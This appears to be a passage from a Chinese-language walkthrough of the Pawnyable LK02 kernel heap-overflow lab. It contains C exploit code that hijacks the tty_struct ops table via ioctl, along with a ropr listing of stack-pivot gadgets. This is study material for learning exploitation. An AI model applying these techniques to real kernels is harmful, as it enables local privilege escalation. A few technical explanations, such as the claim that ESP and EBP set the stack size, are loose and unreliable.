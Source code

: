 可以看到0xffff88800310e438处的指针：0xffff88800310e438

这个值前去0x438就可以得到g_buf的地址。得到g_buf的地址后，就可以考虑将tty_operations *ops指向g_buf，并在g_buf中布置一张函数表，exp中的实现为：


```c
void hajicak_control_flow() {
  char buf[0x500];
  uint64_t *p = (uint64_t *)&buf;
  for (int i = 0; i < 0x40; i++) // 随便填入几个函数地址进行验证
    *p++ = 0xffffffffdead0000 + (i << 8);
  *(uint64_t *)&buf[0x418] = g_buf; // 劫持tty_struct的函数表为g_buf
  write(global_fd, buf, 0x420);
  for (int i = 0; i < SPRAY_NUM; i++) { //因为不知道我们覆盖到的是哪一个tty_strcut，所以对每一个都尝试ioctl
    ioctl(spray[i], 0xdeadbeef, 0xcafebabe); // 触发劫持
  }
}
```

`tips：ioctl函数是用于触发该 tty_struct 中 const struct tty_operations *ops 指向的函数表中的特定函数，特别是该结构体中的 .ioctl 函数指针所指向的驱动程序实现的处理函数。`

然后在程序中运行一下这个验证用的exp，可以看到：

![image-20250509115122338](Pawnyable_LK02_heapoverflow.assets/image-20250509115122338.png)

虽然内核崩溃了，但是看到崩溃的地址是我们修改后劫持的那个地址，如果我们关闭SMAP保护，就可以尝试利用ret2usr的思路来完成提权

**但是，当SMAP开启的时候，即是我们通过硬编码写入某些提权函数的地址，在调用这些函数时也会出错，这个报错大概率是一个内核栈空间耗尽的错误。这是由于虽然我们可以劫持RIP到用户空间，但此时我们仍然处于内核的上下文中，在内核上下文中，每个线程都会被分配一个固定大小（如8KB）的 内核栈，这个栈在后续调用提权函数时就很容易因为空间不足而崩溃掉**

为了解决这个问题，下面会介绍一种叫做stack pivot的手法。

## SMEP

前面说到，当我们尝试在内核空间中使用ret2usr时会由于内核栈空间不足而发生报错，那么我们是否可以通过某种手段扩大这个栈空间呢？

这就是前面提到的stack pivot手法。栈空间的大小是由ESP和EBP两个寄存器决定的，那么在控制RIP后，可以通过ROP的手法为ESP赋一个较大的值来完成栈空间的扩大。

**在没有SMEP机制的情况下**可以通过mmap映射一块较大的用户空间内存，然后将栈空间劫持到这块区域上就行。利用ropr，可以找到这样一些gadget：

```sh
➜  ropr --nouniq -R "^mov esp, 0x[0-9]*; ret" ./vmlinux
0xffffffff8132b8ad: mov esp, 0x39000001; ret 0x4e7f;
0xffffffff8136c683: mov esp, 0x81000000; ret 0x1389;
0xffffffff814f7b30: mov esp, 0x89480002; ret;
0xffffffff81516264: mov esp, 0x39000000; ret;
0xffffffff8151657f: mov esp, 0x39000000; ret;
0xffffffff8154380f: mov esp, 0x39000000; ret;
0xffffffff815a9798: mov esp, 0x39000000; ret;
```
